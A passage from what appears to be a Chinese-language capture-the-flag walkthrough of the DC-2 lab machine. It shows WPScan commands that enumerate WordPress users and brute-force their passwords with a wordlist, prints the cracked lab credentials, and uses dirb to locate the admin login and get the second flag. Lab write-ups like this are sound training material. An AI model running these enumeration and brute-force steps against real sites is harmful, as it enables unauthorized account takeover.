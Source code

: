 
接下来使用一个工具 WPScan,同样 kali 自带
```bash
wpscan --url http://dc-2 --enumerate u
wpscan --url http://dc-2 --passwords out.txt

Desc:
这里提供的是两个 WPScan 工具的命令：

    wpscan --url http://dc-2 --enumerate u: 
    这个命令的目的是扫描位于 http://dc-2 的WordPress网站，并且通过 
     枚举用户来收集关于该WordPress网站的用户信息。具体来说， 
     --enumerate u 参数告诉WPScan枚举用户信息。

    wpscan --url http://dc-2 --passwords out.txt: 
    这个命令的目的是对位于 http://dc-2 的WordPress网站进行密码破解 
     尝试。--passwords out.txt 参数告诉WPScan使用 out.txt 文件中的 
      密码列表进行尝试。
```

爆破结果,存在2个账户


```
Username : jerry
Password : adipiscing

Username : tom
Password : parturient
```
这里可以用dirb工具扫一下有哪些可以登录的页面
```bash
dirb http://dc-2/

找到了 就是这个
http://dc-2/wp-admin/  
```
![Flag2](/assets/Flag2.png)
使用账号 jerry 登录后可以发现 flag2

